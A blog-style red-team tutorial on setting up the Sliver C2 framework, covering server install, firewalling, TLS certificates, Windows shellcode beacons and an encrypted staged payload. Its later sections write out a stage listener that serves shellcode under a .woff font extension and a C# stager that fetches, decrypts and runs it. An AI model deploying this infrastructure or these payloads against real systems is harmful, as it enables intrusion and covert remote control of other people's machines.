 ```yaml
---
title: "Sliver C2 Deployment for Red Team Engagements"
date: 2023-07-17
categories: redteam
published: true
---
```


[Sliver](https://github.com/BishopFox/sliver/) has been a popular open-source C2 in recent years and has had continuous improvements since its release. It's cross-platform and easy to setup which were both appealing to me when I first started using it. I wanted to learn how to setup Sliver as a C2 server for red teams so I decided to document it for my own reference and anyone else interested. Here's what we'll cover:

- Sliver installation
- Connecting and Setup
- Beacons
- Staged Payloads

---------------------------------------------

## Sliver Installation

Sliver documentation: [https://github.com/BishopFox/sliver/wiki](https://github.com/BishopFox/sliver/wiki)

Spin up a Linux droplet/EC2/whatever to host your C2 server. Run the initial updates and install MinGW to allow compilation of shellcode/staged/DLL payloads:
```
apt update -y
apt update --fix-missing -y
apt install git mingw-w64 net-tools -y
```

Once the system is updated, Sliver is __very__ easy to install using the setup script ([reference](https://github.com/BishopFox/sliver/#getting-started)): <br />
`curl https://sliver.sh/install|sudo bash` <br />
This will automatically start Sliver running in [Daemon mode](https://github.com/BishopFox/sliver/wiki/Daemon-Mode). 

You can then create a client config on your Sliver server to allow "multiplayer" connections: <br />
`./sliver-server operator --name sliver-user --lhost "<SLIVER-IP>" --save /root/sliver-user.cfg`.<br />
Download the output "**sliver-user.cfg**" file to your local host using SCP or whatever file transfer app you like which you will use to connect to the server using a Sliver client.

__IMPORTANT STEP:__ *Don't forget to lock down your C2 server firewalls so that only you can access it. You can do this through firewalls in your cloud console, UFW rules, IPTables, etc. You will also need to open it up to your redirector (in our case over HTTPS) but more on this later.*

I created some Terraform scripts to help automate this whole process found in my [GitHub repository here](https://github.com/wsummerhill/Automation-Scripts/tree/main/Sliver-C2-deployment_DigitalOcean).

## Connecting and Setup

On your test system, download the Sliver client for your specific OS from the [link here](https://github.com/BishopFox/sliver/releases). Import your **sliver-user.cfg** config file from the previous steps and connect to the Sliver server with the following commands:<br />
```
./sliver-client_OS import ./sliver-user.cfg  # Import client
./sliver-client_OS  # Connect to Sliver C2
Connecting to <SLIVER-IP>:31337 ...

.------..------..------..------..------..------.
|S.--. ||L.--. ||I.--. ||V.--. ||E.--. ||R.--. |
| :/\: || :/\: || (\/) || :(): || (\/) || :(): |
| :\/: || (__) || :\/: || ()() || :\/: || ()() |
| '--'S|| '--'L|| '--'I|| '--'V|| '--'E|| '--'R|
`------'`------'`------'`------'`------'`------'

All hackers gain assist
[*] Server v1.5.40 - c17c37857e54f0fa202c01cbd00a99a85f5f9f49
[*] Welcome to the sliver shell, please type 'help' for options

sliver >
```

For our red team setup, we're going to use an HTTPS redirector pointing to your C2 server. We also need to make sure that the Sliver server is locked down using firewall rules by making it accessible ONLY to your own IP addresses and the soruce IPs of your redirector(s) open over port 443 to be the most opsec-safe. BE SURE that your Sliver server is NOT directly accessible over the Internet to anyone.<br />
To do this with UFW rules, it would look something like this:<br />
```
# Allow your IPs
ufw allow from <YOUR-IP>
ufw allow from <YOUR-IP-2>
# Allow your redirectors over HTTPS
ufw allow from <REDIRECTOR-IP> to any port 443
ufw allow from <REDIRECTOR-IP> to any port 443
ufw allow from <REDIRECTOR-IP> to any port 443
# Start firewall
ufw enable # Select Y at prompt
```

## Redirectors 

We're not actually going to cover HTTPS redirector setup as there are many different blogs and techniques to do this (i.e. [how-to-guides](https://howto.thec2matrix.com/attack-infrastructure/redirectors), [AWS lambda redirectors](https://blog.xpnsec.com/aws-lambda-redirector/), [bluescreenofjeff](https://bluescreenofjeff.com/2018-04-12-https-payload-and-c2-redirectors/), etc.). So for the rest of this post we'll assume you already have an HTTPS redirector setup!

Moving on... Now we'll have to start an HTTPS listener in Sliver which only accepts connectsion from our redirector host. But first, we'll need to setup an SSL certificate with a public/private key (without encryption) to have a valid SSL/TLS connection. You could use a self-signed one (using the `--self-signed` option), but for red teams we would much rather have a valid/signed cert for our HTTPS connections to be less suspicious.

To create your SSL/TLS certificate for HTTPS communications with your listener, you can use whatever service/app you prefer. LetsEncrypt is probably the most common method, and recently I started using AWS Certificate Manager (ACM) certs.<br />
To automate this with LetsEncrypt, I modified one of RedSiege's script for setting up a cert Cobalt Strike and made it compatible with Sliver. [Link HERE](https://github.com/wsummerhill/Automation-Scripts/blob/main/HttpsGenericC2DoneRight.sh).<br />
Drop the `HttpsGenericC2DoneRight.sh` script on your Sliver teamserver and run it with Sudo privileges. Enter in your C2 domain (with an A record pointing to your C2 server) and any private key password:
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/fd02dfbc-dc55-4ad4-83d9-1bea28e1a12e)

If everything works properly, the script should output you a domain store file, cert.pem and privkey.pem files in your /root directory. Copy these files to your local system with your Sliver client installed.
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/a57e5b26-eee7-4556-aa19-5fa3b8307204)

## Beacons

Sliver C2 implants communicate in 2 different ways: **Beacons** or **Sessions**. For red teams and better opsec we will always be using Beacons which use asynchronous communications that periodically check-in at a certain time interval. The alternative would be Sessions which use an established interactive mode connection (noisy and poor opsec). <br />
Beacons function the same way Cobalt Strike communication channels work using asynchronous connections. The one downside of Sliver is that it doesn't have a sleep mask like Cobalt Strike does, meaning the Beacon code won't be obfuscated/encrypted in-memory while sleeping between connections. 

To create a new Beacon using your HTTPS redirector (you previously set this up right?), use the following command:
``


## Staged Payloads

Useful links:
- https://github.com/BishopFox/sliver/wiki/Stagers
- https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/

To create staged payloads, we'll need to create two things: a **profile** and a **staged listener**. The profile will act as a configuration for our stage 2 payoad, and the staged listener will be a stage 1 listener/payload

First, to create a **profile**, use the following command which is similar to how we previously createed Windows shellcode. This will create the profile 'https-win':<br />
`profiles new beacon --http https://sliver-redirector.com --os windows --format shellcode --evasion https-win`
Type `profiles and you should see your 'https-win' profile created.
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/20dd9587-79df-40c7-bb91-dd7c7bd8aee2)

Next, we need to create a staged listener that links to our profile. In this case, I obfuscated the staged payload using gzip compression and AES encryption. <br />
`stage-listener --url http://sliver-domain:80 --profile https-win --compress gzip --aes-encrypt-key "LgUmeMnmUpRrCBRB" --aes-encrypt-iv "nStxRW5o6TNHcKBx"`
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/ae2aa7e6-9e9d-4812-8d53-681651c30608)

**Note:** *If you're using your Sliver C2 server to host the stage 1 payload, you need to set it up on a different protocol/port as your HTTPS listener. Alternatively, you can set it up, download the shellcode then host it anywhere else for better opsec (i.e. a cloud provider). If you host it elsewhere, don't forget to kill your original staged listener!*

Once you create the staged listener, your stage 2 payload should be available at [http://sliver-domain:80/AnythingHere.woff](http://sliver-domain:80/AnythingHere.woff). Note the ".woff" extension to download your shellcode. This is due to the "stager_file_extension" in your Sliver config ([reference](https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2#implant_config)). You could change this to any other extension you like in the config.<br />

Now, we need to create a stage 1 payload to reach out to download and decrypt/decode our stage 2 payload then execute it. This should be as custom as possible for a red team, but a good starting point is the provided C# template [here in the Sliver documentation](https://github.com/BishopFox/sliver/wiki/Stagers#encrypted-stage-example) (note for this payload you'll have to add gzip compression if you chose that option in your `stage-listener` command).

For the stadnard template, update the C# payloads variables to fit your url, AES key, and AES IV at the top of the script. 
```
...
namespace Sliver_stager
{
    class Program
    {
        private static string AESKey = "LgUmeMnmUpRrCBRB";
        private static string AESIV = "nStxRW5o6TNHcKBx";
        private static string url = "http://sliver-domain:80/text-fonts.woff";
        ...
```
Compile the C# payload with csc.exe in to an EXE for testing purposes: `C:\windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:exe /platform:x64 /out:Sliver-payload.exe Sliver_staged-payload.cs`

Run the output payload `./Sliver-payload.exe` and you should see a new beacon pop up in Sliver!
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/12d8f0df-a5d2-440f-972f-cd091a38b738)

Of course for a red team, we want to further customize the stage 1 payload to make it as unique and opsec-safe as possible. We aren't going to cover that here as this is just a proof-of-concept, but get as creative as possible!
<br />
Hope you all enjoyed the Sliver setup!
